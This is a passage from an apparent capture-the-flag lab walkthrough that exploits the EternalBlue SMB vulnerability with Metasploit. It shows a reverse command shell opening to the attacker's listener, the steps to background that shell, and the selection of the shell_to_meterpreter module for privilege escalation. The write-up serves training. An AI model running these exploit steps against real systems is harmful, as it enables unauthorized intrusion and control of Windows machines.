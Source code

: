 ~~~
[*] 10.10.130.234:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.9.35.106:4444 -> 10.10.130.234:49231) at 2020-04-30 11:46:47 -0700
[+] 10.10.130.234:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.130.234:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.130.234:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
~~~

Press `ENTER` for the DOS shell to appear

### #2.5

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

* Press ENTER to enter into the shell
* Press CTRL+Z and select "y" to background the shell

~~~
[...SNIP...]

[+] 10.10.126.60:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.126.60:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.126.60:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

<ENTER>

C:\Windows\system32>^Z
Background session 1? [y/N]  y
~~~

## [Task 3] Escalate 19/03/2019

### Description

Escalate privileges, learn how to upgrade shells in metasploit.

### #3.1

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected).

Hint: Google this: shell_to_meterpreter

~~~
msf5 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter 
~~~
